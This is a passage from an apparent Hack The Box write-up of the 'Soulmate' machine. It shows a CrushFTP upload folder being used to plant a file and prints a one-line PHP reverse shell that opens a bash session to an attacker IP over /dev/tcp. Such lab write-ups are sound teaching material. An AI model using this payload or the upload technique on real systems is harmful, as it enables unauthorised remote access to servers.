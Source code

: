 We are in `ben` session now, here we go!

And we got some more stuffs appear like `webProd`, `IT` and `ben` directory but seems like we can not grab the `user.txt` flag but we can download all the stuffs and checking it.

![Soulmate Website CrushFTP ben folders](/assets/img/soulmate-htb-release-area-machine/soulmate-htb-release-area-machine_website-crushftp-ben-folders.png)

Seems like nothing much to do with these stuffs, but then when we click the `webProd` directory.

![Soulmate Website CrushFTP ben webProd folder](/assets/img/soulmate-htb-release-area-machine/soulmate-htb-release-area-machine_website-crushftp-ben-webProd-folder.png)

We found out there is `Upload` button where we can upload file into it. Same with `ben` directory as well. <br>
&rarr; So we gonna leverage this point to upload a reverse shell and setup our listener to catch it.

### PHP Reverse Shell
We gonna craft a simple php file to execute bash shell command.

```php
# soul.php  
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.17/3333 0>&1'"); ?>
```

Then we upload it.
